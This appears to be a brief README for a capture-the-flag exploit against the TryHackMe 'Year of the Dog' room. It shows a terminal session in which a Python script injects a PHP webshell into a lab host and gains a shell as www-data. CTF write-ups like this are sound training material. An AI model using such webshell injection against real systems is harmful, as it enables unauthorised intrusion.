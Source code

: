 
Year of the dog!

- [THM BOX](https://tryhackme.com/room/yearofthedog)

```sh
┌──(root㉿kali)-[/year_of_the_dog]
└─# ./year_of_the_dog.py -u http://10.10.176.81
[*] Injecting webshell at http://10.10.176.81/b015954c.php
[*] Success! We got a webshell as www-data
```
